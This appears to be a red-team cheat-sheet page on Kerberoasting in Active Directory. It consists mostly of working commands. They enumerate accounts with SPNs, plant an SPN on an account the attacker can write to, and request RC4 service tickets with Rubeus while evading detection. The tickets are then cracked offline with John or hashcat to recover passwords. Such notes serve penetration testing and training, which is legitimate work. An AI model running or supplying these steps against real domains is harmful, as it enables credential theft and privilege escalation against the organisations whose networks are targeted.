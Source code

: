# Kerberoasting

When a user account has a Service Principal Name, it is possible to request a Service Ticket for the service mentionned in the SPN.

The Service Ticket is encrypted with the password of the user account: it is possible to crack the ST to retrieve the user account's password.



## List users that have SPN

<pre class="language-powershell"><code class="lang-powershell"><strong>> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
</strong></code></pre>

## List users that have SPN in trusted forest

<pre class="language-powershell"><code class="lang-powershell"><strong>> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server dc.trust.local
</strong></code></pre>

## Set SPN to user

If our user has `GenericWrite` or `GenericAll` to another user, it is then possible to write an SPN and perform a targeted kerberoast attack.

```powershell
# List our privileges on the group StudentUsers
[PowerView]> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
# Or use BloodHound to find this
```

Update SPN:

```powershell
> Set-ADUser -Identity <username> -ServicePrincipalNames @{Add='domain/SPN'} -Verbose
[PowerView]> Set-DomainObject -Identity <username> -Set @{serviceprincipalname='domain/SPN'} -Verbose
```

Check that SPN has been updated:

```powershell
> Get-ADUser -Identity <username> -Properties ServicePrincipalName | select ServicePrincipalName
```

## Request ST

This command requests a Service Ticket for user `username`. The `/rc4opsec` flag only requests tickets for user accounts that support RC4.&#x20;

```powershell
> Rubeus.exe kerberoast /user:<username> /simple /nowrap /rc4opsec /outfile:hashes.txt
```

## Crack with JtR or hashcat

```powershell
> john.exe --wordlist=<path_to_wordlist> hashes.txt
> hashcat -m 13100 hashes.txt <path_to_wordlist>
```
